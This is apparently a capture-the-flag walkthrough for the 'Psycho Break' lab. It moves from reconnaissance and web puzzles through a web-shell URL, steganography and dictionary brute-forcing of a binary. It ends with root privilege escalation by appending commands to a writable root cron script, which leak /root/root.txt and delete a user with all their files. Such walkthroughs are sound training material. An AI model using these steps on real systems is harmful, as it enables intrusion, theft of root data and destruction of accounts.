



# Psycho Break

## Description


Help Sebastian and his team of investigators to withstand the dangers that come ahead.

This room is based on a video game called evil within. I am a huge fan of this game. So I decided to make a CTF on it. With my storyline :). Your job is to help Sebastian and his team of investigators to withstand the dangers that come ahead.

## Challenges

### Recon

`nmap -A 10.10.114.190 -T4`

```
Starting Nmap 7.60 ( https://nmap.org ) at 2024-05-14 02:57 BST
Nmap scan report for ip-10-10-114-190.eu-west-1.compute.internal (10.10.114.190)
Host is up (0.00084s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.5a
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 44:2f:fb:3b:f3:95:c3:c6:df:31:d6:e0:9e:99:92:42 (RSA)
|   256 92:24:36:91:7a:db:62:d2:b9:bb:43:eb:58:9b:50:14 (ECDSA)
|_  256 34:04:df:13:54:21:8d:37:7f:f8:0a:65:93:47:75:d0 (EdDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome To Becon Mental Hospital
```

### Web

Open WEB (10.10.114.190) -> F12 -> Inspector -> Comments



Go to http://10.10.114.190/sadistRoom/ -> Get locker key

Go to http://10.10.114.190/lockerRoom/ -> decode `Tizmg_nv_zxxvhh_gl_gsv_nzk_kovzhv` (HINT: It's Vigenère cipher. Use https://www.guballa.de/vigenere-solver -> Beafort Variant to break it)

Go to Safe Heaven -> check Inspector



`gobuster dir -u http://10.10.114.190/SafeHeaven/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.114.190/SafeHeaven/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2024/05/14 03:18:40 Starting gobuster
===============================================================
/imgs (Status: 301)
/keeper (Status: 301)
===============================================================
2024/05/14 03:18:59 Finished
===============================================================
```

To escape keeper you need to use some OSINT


You need to use Google and just search by photo.

Go to http://10.10.114.190/abandonedRoom/ and paste keeper key



http://10.10.114.190/abandonedRoom/[HIDDEN]/herecomeslara.php?shell=ls..

Go to new URL http://10.10.114.190/abandonedRoom/[PATH_FROM_PREVIOUS_STEP]

### Help Mee

`unzip helpme.zip`
```
Archive:  helpme.zip
  inflating: helpme.txt              
replace Table.jpg? [y]es, [n]o, [A]ll, [N]one, [r]ename: y
  inflating: Table.jpg               
```

`cat helpme.txt`

```
From [NAME],

Who ever sees this message "HELP Me". Ruvik locked me up in this cell. Get the key on the table and unlock this cell. I'll tell you what happened when I am out of 
this cell.
```

Looks like Table.jpg is not JPG

```
file Table.jpg
Table.jpg: Zip archive data, at least v2.0 to extract
root@ip-10-10-237-232:~# mv Table.jpg Table.zip
root@ip-10-10-237-232:~# unzip Table.zip
Archive:  Table.zip
  inflating: Joseph_Oda.jpg          
  inflating: key.wav
```

key.wav - is Morse code `... .... ___ .__ __ .`

```
steghide extract -sf Joseph_Oda.jpg
Enter passphrase: 
wrote extracted data to "thankyou.txt".

cat thankyou.txt

From joseph,

Thank you so much for freeing me out of this cell. Ruvik is nor good, he told me that his going to kill sebastian and next would be me. You got to help 
Sebastian ... I think you might find Sebastian at the Victoriano Estate. This note I managed to grab from Ruvik might help you get inn to the Victoriano Estate. 
But for some reason there is my name listed on the note which I don't have a clue.

	   --------------------------------------------
        //						\\
	||	(NOTE) FTP Details			||
	||      ==================			||
	||						||
	||	USER : [USER]				||
	||	PASSWORD : [PASSWORD]		||
	||						||
	\\						//
	   --------------------------------------------
	

Good luck, Be carefull !!!
```

On FTP there are: program - binary and random.dic - dictionary

### Crack it open

Check what program do

```
chmod +x program
./program
```


Use script
```
import os
import subprocess
import sys

f = open("random.dic", "r")

keys = f.readlines()

for key in keys:
    key = str(key.replace("\n", ""))
    print (key)
    subprocess.run(["./program", key])
```

For some password you will get multi-tap phone encoded message - `55 444 3 6 2 66 7777 7 2 7777 7777 9 666 777 3 444 7777 7777 666 7777 8 777 2 66 4 33`

### Go Capture The Flag

#### user.txt

Now we have ssh login and password

```
ssh kidman@10.10.114.190
The authenticity of host '10.10.114.190 (10.10.114.190)' can't be established.
ECDSA key fingerprint is SHA256:BhkAtmHDnZgXYzE0QhMilerVml1KgZBkpBRUSI4Crdo.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.114.190' (ECDSA) to the list of known hosts.
kidman@10.10.114.190's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

171 packages can be updated.
121 updates are security updates.


Last login: Fri Aug 14 22:28:13 2020 from 192.168.1.5
kidman@evilwithin:~$ ls
user.txt
```

#### root.txt

```
kidman@evilwithin:~$ sudo -l
[sudo] password for kidman: 
Sorry, user kidman may not run sudo on evilwithin.
kidman@evilwithin:~$ crontab -l
no crontab for kidman
kidman@evilwithin:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )

*/2 * * * * root python3 /var/.the_eye_of_ruvik.py
kidman@evilwithin:~$ ls -la /var/.the_eye_of_ruvik.py
-rwxr-xrw- 1 root root 300 Aug 14  2020 /var/.the_eye_of_ruvik.py
kidman@evilwithin:~$ touch /tmp/flag
kidman@evilwithin:~$ chmod 777 /tmp/flag
kidman@evilwithin:~$ echo 'subprocess.call("cat /root/root.txt > /tmp/flag", shell=True)' >> /var/.the_eye_of_ruvik.py
kidman@evilwithin:~$ cat /var/.the_eye_of_ruvik.py
#!/usr/bin/python3

import subprocess
import random

stuff = ["I am watching you.","No one can hide from me.","Ruvik ...","No one shall hide from me","No one can escape from me"]
sentence = "".join(random.sample(stuff,1))
subprocess.call("echo %s > /home/kidman/.the_eye.txt"%(sentence),shell=True)

subprocess.call("cat /root/root.txt > /tmp/flag", shell=True)
kidman@evilwithin:~$ cat /tmp/flag
```

#### Delete ruvik

```
kidman@evilwithin:~$  echo 'subprocess.call("deluser --remove-all-files ruvik", shell=True)' >> /var/.the_eye_of_ruvik.py 
kidman@evilwithin:~$ 
kidman@evilwithin:~$ cat /var/.the_eye_of_ruvik.py
#!/usr/bin/python3

import subprocess
import random

stuff = ["I am watching you.","No one can hide from me.","Ruvik ...","No one shall hide from me","No one can escape from me"]
sentence = "".join(random.sample(stuff,1))
subprocess.call("echo %s > /home/kidman/.the_eye.txt"%(sentence),shell=True)

subprocess.call("cat /root/root.txt > /tmp/flag", shell=True)
subprocess.call("deluser --remove-all-files ruvik", shell=True)
```
